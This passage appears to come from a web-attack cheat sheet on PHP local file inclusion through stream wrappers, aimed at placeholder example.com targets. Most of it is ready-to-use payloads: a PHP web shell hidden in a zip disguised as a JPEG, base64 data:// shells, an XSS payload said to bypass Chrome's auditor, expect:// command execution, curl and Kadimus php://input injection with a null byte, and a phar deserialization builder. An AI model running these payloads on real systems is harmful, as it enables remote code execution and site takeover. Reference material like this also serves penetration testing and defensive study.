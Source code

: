 ### Wrapper zip://

```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
